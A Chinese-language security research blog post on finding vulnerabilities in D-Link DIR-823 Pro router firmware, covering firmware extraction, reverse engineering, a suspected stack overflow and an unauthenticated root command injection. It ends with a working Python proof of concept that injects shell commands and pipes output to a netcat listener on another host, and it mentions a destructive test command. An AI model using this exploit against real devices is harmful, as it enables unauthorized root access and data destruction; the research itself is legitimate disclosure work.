 ```yaml
---
layout:     post
title:      对D-link DIR823pro路由器的漏洞挖掘
subtitle:   尝试挖掘漏洞
date:       2021-03-08
author:     X1ng
header-img: dir823pro.jpg
catalog: true
tags:
    - 漏洞挖掘
    - iot
---
```


感觉iot设备的漏洞比较常见的就是溢出和命令注入了，找了一个网上没有找到相关资料的DIR-823 pro路由器测试

记录关于DIR-823 pro路由器上无交互RCE的漏洞挖掘过程

17年的固件也是年久失修了，就当作挖掘路由器设备漏洞的练手吧

### 固件获取

从官网获取[固件](http://support.dlink.com.cn:9000/ProductInfo.aspx?m=DIR-823+Pro)

从固件名称来看，应该是对openwrt进行二次开发而成的固件

### 解压文件系统

用binwalk直接解压

```
binwalk -Me page_openwrt-mtk-sysupgrade-86382-201710141034.bin
```

就可以得到文件系统了

![](https://tva1.sinaimg.cn/large/008i3skNly1gpretxz31nj313y0qineq.jpg)

### 固件分析

#### 攻击面分析

使用nmap对其开放的端口进行扫描

![](https://tva1.sinaimg.cn/large/008i3skNly1gpreu356dkj311y0pkqcu.jpg)

这里优先选择了比较熟悉的http服务

#### 查找可能存在漏洞的文件

经过查阅资料，openwrt启动时，会运行/etc/init.d/下的脚本

```
ls ./etc/init.d/
```

![](https://tva1.sinaimg.cn/large/008i3skNly1gprex200t6j31ey05oq7o.jpg)

找到与http服务有关的lighttpd文件

```
cat ./etc/init.d/lighttpd
```

![](https://tva1.sinaimg.cn/large/008i3skNly1gprezvbu38j31ai0sqthi.jpg)

可以看到起配置文件路径是`/etc/lighttpd/lighttpd.conf`

```
cat ./etc/lighttpd/lighttpd.conf
```

![](https://tva1.sinaimg.cn/large/008i3skNly1gprf1umee8j31by0jmwjs.jpg)

找到一个比较可疑的文件`/www/web/HNAP1/prog.fcgi`

```
file ./www/web/HNAP1/prog.fcgi
```

![](https://tva1.sinaimg.cn/large/008i3skNly1gprf57oksgj31c802ogo5.jpg)

是指向`/usr/sbin/prog.cgi`的软链接

```
file ./usr/sbin/prog.cgi
```

![](https://tva1.sinaimg.cn/large/008i3skNly1gprf9dv39qj31a803k41n.jpg)

#### 分析可能存在漏洞的文件

由于过于贫穷，不能使用IDA pro 7.5，选择ghidra对文件进行逆向分析

经过分析，该程序的整体逻辑应该是

1. 先给特定的接口注册相应的处理函数

    ![](https://tva1.sinaimg.cn/large/008i3skNly1gprfhrh9l8j31a80mi49x.jpg)

2. 从环境变量中获取用户报文的字符串

    ![](https://tva1.sinaimg.cn/large/008i3skNly1gprfhwqxquj31a80mi7fu.jpg)

3. 之后就是对报文的一些分析处理

##### 可能存在的栈溢出漏洞

在main函数中发现了一个可能存在的栈溢出漏洞

其具体逻辑是，从环境变量中获取`HTTP_SOAPACTION`这一变量的值，将字符串存到某结构体中

![](https://tva1.sinaimg.cn/large/008i3skNly1gprfqwb47uj31du0o84d2.jpg)

在之后对这一字符串进行处理的过程中，使用`strncpy`来进行字符串复制

![](https://tva1.sinaimg.cn/large/008i3skNly1gprfrtwzchj31dq0oawpt.jpg)

而`strcpy`与`strncpy`都是字符串操作中比较容易出现漏洞的地方，其作用都是将源字符串复制到目标地址

1. 如果`strcpy`函数的源字符串可被攻击者控制并且没有长度限制，就可能出现源字符串的长度大于目前栈帧的长度的情况，造成栈溢出
2. 而`strncpy`函数对字符串复制的长度进行了限制，其第三个参数用来表示字符串复制的长度，但是如果第三个参数为源字符串的长度，其实就相当于`strcpy`，可能造成栈溢出

而此处对字符串的处理就是使用`strstr`函数来获取源字符串的起始地址（`http://purenetworks.com`之后的字符串地址）与结束地址（下一次出现`"`的地址），然后将两者的差作为`strncpy`第三个参数

也就是上述的第二种情况

但是作为一个cgi文件，`prog.cgi`通过环境变量来获取报文，其他地方有没有对此处的字符串长度进行限制就不得而知了

为了测试这里是否真的存在栈溢出漏洞

- 首先尝试发送超长的字符串进行测试

    在程序发生栈溢出时有两种情况

    1. 程序无守护进程，栈溢出后直接崩溃，也就是发送的报文无返回，并且web服务就无法访问了
    2. 程序存在守护进程，栈溢出后仍然可以正常访问web服务

    ![](https://tva1.sinaimg.cn/large/008i3skNly1gprgcbh8tsj31060swdqc.jpg)

    发现在长度达到一定程度的时候会返回500状态码，而没有直接崩溃

    > https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Status/500
    >
    > 在 HTTP 协议中，`500 Internal Server Error` 是表示服务器端错误的响应状态码，意味着所请求的服务器遇到意外的情况并阻止其执行请求。
    >
    > 这个错误代码是一个通用的“万能”响应代码。有时候，对于类似于 500 这样的错误，服务器管理员会更加详细地记录相关的请求信息来防止以后同样错误的出现。

- 然后尝试qemu搭建一个虚拟调试环境，但是经过各种尝试，都无法进行`chroot`

    ![](https://tva1.sinaimg.cn/large/008i3skNly1gprhflybxlj314u0r2tb2.jpg)

- 最后尝试通过uart串口通信获取真机shell环境，但是连接后提示需要用户名密码登陆

    ![](https://tva1.sinaimg.cn/large/008i3skNly1gprh5xco7kj30y20pmb1e.jpg)

最后放弃了这里的探究

##### 命令注入漏洞

在进入路由器web页面时，通过burp suite进行抓包分析

![](https://tva1.sinaimg.cn/large/008i3skNly1gprh1jizwyj310i0t4ale.jpg)

（经过测试，通过`GetMultipleHNAPs`调用的这些接口都是没有鉴权的，也就是说无需身份验证就可以访问这些接口）

经过对这些接口处理函数的逆向分析，找到了一个比较可疑的函数

![](https://tva1.sinaimg.cn/large/008i3skNly1gprhiwjxsvj31co0nwtqg.jpg)

`FUN_0042a814`函数是对`SetNetworkTomographySettings`接口的处理函数

其功能大概是通过`ping`命令测试网络连通性，允许用户设置`ping`命令的参数

![](https://tva1.sinaimg.cn/large/008i3skNly1gprhlkynfij31es0oiaqf.jpg)

这里也就出现了一个比较常见的`sprintf`+`system`的漏洞模式

由于攻击者可以控制system参数的内容，并且没有有效的过滤，攻击者可通过发送特制的带有shell元字符的请求利用该漏洞执行任意的操作系统命令

并且经过测试（执行命令`rm -rf /bin/sh`，路由器成功变板砖了2333），这里的命令应该是以root权限执行的

poc.py:

```python
#python2
import requests

'''
shell:
nc -l -p 8888
'''

#192.168.0.115
def run(cmd = ""):
	posturl = "http://192.168.0.1/HNAP1/"
	posthead = {
	"SOAPACTION": "http://purenetworks.com/HNAP1/GetMultipleHNAPs"
	}
	if cmd != '':
		cmd = ';'+cmd+';'
	print cmd
	getsetting = '{"GetMultipleHNAPs":{"GetNetworkTomographySettings":""}}'
	setsetting = '{"GetMultipleHNAPs":{"SetNetworkTomographySettings":{ "tomography_ping_address": "'+cmd+'", "tomography_ping_number": "6", "tomography_ping_size": "64", "tomography_ping_timeout": "1", "tomography_ping_ttl": "20"}}}'
	
	a= requests.post(posturl, headers = posthead, data = setsetting)
	print a.text

run('ls | nc 192.168.0.115 8888')
```

需要注意的是，这里的命令是有长度限制的，插入太长的字符串会因为命令字符串不完整执行失败

shell1:

```
nc -l -p 8888
```

shell2:

```
python poc.py
```
